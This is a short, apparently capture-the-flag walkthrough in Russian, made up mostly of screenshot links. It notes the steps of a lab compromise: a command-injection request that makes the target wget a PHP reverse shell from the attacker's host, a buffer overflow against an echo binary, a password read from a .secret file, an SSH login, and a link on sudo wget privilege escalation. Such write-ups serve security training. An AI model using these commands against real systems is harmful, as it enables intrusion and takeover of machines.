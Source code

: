 ![image](https://github.com/stensil4rt/CodeBy/assets/62753044/1a38ac51-1a71-40a9-9c4d-27dcbd325b4c)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/129f46fa-dfea-4027-aa7e-82b8a1a399c2)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/ec09e955-ff2b-4d52-9d4a-46465ac1556a)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/7cee6efb-9ccb-4798-9a2a-ddec783d331d)

Кидаем реверс php

GET /search.php?q=%22%3bwget%20ip:1234/test1.php%3b%22

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/9bbdcef7-fd6c-4aae-8c64-6478e7d687da)

find / -user nolan

echo

https://cocomelonc.github.io/pwn/2021/10/19/buffer-overflow-1.html

./usr/bin/echo $(python3 -c 'print("A"*8001+"\x01")')

Читаем файл .secret там пароль

Заходим по ssh ssh nolan@62.173.140.174 -p 18822

`sudo -l`

https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/sudo-wget-privilege-escalation/



